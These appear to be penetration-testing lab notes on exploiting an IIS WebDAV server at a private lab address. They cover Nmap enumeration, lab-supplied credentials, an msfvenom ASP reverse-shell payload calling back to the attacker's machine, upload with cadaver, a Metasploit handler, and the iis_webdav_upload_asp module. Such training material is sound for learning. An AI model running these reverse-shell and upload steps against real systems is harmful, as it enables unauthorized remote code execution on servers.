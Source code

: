 Practical Demonstration
- `nmap -sV -p 80 --script=http-enum 10.2.30.233`
- The 401 Unauthorized result for `/webdav/` depicted in the Nmap Script scan signifies that authentication is enabled for the `webdav` service hosted on the web server.
- We can use the web browser to verify that `webdav` is hosted on the web server by navigating to the `/webdav/` directory.
- The username and password have been provided in the lab to prevent us from spending time on performing a bruteforce attack, the username is `bob` and the password is `password_123321`.

- Manual Exploitation (Generating a payload using MSFvenom and executing it on the target system.)
	- MSFvenom
		- MSFvenom is a Metasploit tool used to generate payloads used for reverse shell access to a target system.
		- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=4444 -f asp > shell.asp`
		- It is recommended to use the 32 bit architecture (x86), if one is unsure of the architecture the target system's operating system is using, since 32 bit code will work on both 32 and 64 bit architecture.
	- Using cadaver to  upload the asp reverse shell to the target system
		- `cadaver http://10.2.30.233/webdav`
		- `ls`
		- `put /root/shell.asp`
	- Before we execute the shell.asp file on the target system, we need to set up a listener, or a handler, on our own machine, that will receive the reverse connection from the actual target system, and then send the stage that will then provide us with a meterpreter session when executed.
	- `service postgresql start && msfconsole`
	- `use multi/handler`
	- The options we specify in the handler's options should be the same ones we used to create the payload using msfvenom earlier.
	- `options`
	- `set payload windows/meterpreter/reverse_tcp`
	- `set LHOST 10.10.5.2`
	- `set LPORT 4444`
	- `run`
	- The handler here is a listener that is looking for a reverse connection from the reverse shell payload we uploaded to the target system, we will now execute the file on the target system and the handler will receive a connection, send back a stage, and open up a meterpreter session.
		- `sysinfo`
		- `getuid`
	- Once the exploitation process is complete, it is recommended to delete the reverse shell payload we uploaded to the webdav directory earlier.
		- `cadaver`
		- `ls`
		- `delete shell.asp`
		- `ls`

- Automated Exploitation using the `iis_webdav_upload_asp` Metasploit exploit module.
	- `use exploit/windows/iis/iis_webdav_upload_asp`
	- `set payload windows/meterpreter/reverse_tcp`
	- `options`
	- `set LHOST 10.10.5.2`
	- `set LPORT 4444`
	- `set HttpUsername bob`
	- `set HttpPassword password_123321`
	- `show options`
	- `set RHOSTS 10.2.30.233`
	- `set PATH /webdav/metasploit.asp`
	- `exploit`
	- Meterpreter Session
		- `sysinfo`
		- `getuid`